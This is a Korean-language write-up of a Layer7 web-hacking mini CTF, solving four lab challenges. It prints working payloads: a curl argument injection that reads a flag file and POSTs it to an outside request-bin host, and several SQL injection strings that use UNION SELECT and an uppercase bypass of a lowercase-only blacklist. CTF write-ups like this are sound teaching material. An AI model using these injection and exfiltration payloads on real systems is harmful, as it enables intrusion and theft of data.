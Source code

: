 ```yaml
---
title: Layer7 웹해킹 mini CTF | Write-up
categories:
    - Layer7
    - Reversing
tags:
    - Layer7
    - Reversing
date: 2025-08-07
---
```



## Rednose U

![](image1.png)
`SSTI`로 `JWTKey`를 얻을 수 있어서 대시보드에 접속할 수 있다.

<br>

![](image2.png)
![](image3.png)

대시보드를 보면 `/api/metar`에서 `airport` 인자로 특정 주소에서 값을 가져오는 것으로 보이는데, 코드를 보면 `curl`을 실행하는 것을 확인할 수 있다.

<br>

![](image4.png)

그래서 플래그를 읽어서 리퀘스트 빈에 보내도록 하였다.

`http://211.177.227.113:65303/api/metar?airport=-X%20POST%20https://cqymucy.request.dreamhack.games%20-d%20%22$(cat%20flag_qaiu.txt)%22` 

<br>

## W2

![](image5.png)
![](image6.png)
![](image7.png)

`fstring`으로 쿼리문을 처리하기 때문에 `SQLI` 취약점이 터진다.

`flags` 테이블에 있는 플래그를 `UNION` 명령을 통해 출력하도록 하였다. 블랙리스트에 있는 `select`는 소문자만 막기 때문에 대문자로 우회 가능하다.

`http://211.177.227.113:65304/profile?id=1234%20UNION%20SELECT%20%27flag%27,flag_value,%27%27,%27secret%27%20FROM%20flags%20WHERE%20flag_name=%27main_flag%27--`

<br>

## SRS

````
L7_WH_CTF/SRS/for_user via  v3.13.5 
❯ cat flag_server.py | grep Layer7{
        'flag': 'Layer7{ssrf_easy}',
````

문제 파일에 플래그가 하드코딩 되어있다.

<br>

## T야?

![](image8.png)

여기도 `fstring`으로 쿼리문을 처리해서 `SQLI`가 터지는 걸 알 수 있다.

<br>

![](image9.png)

`flags` 테이블에서 플래그를 가져와 `username`에 `UNION` 해줬다.

`' UNION SELECT 1, flag_value, 'dummy', 'admin' FROM flags --`
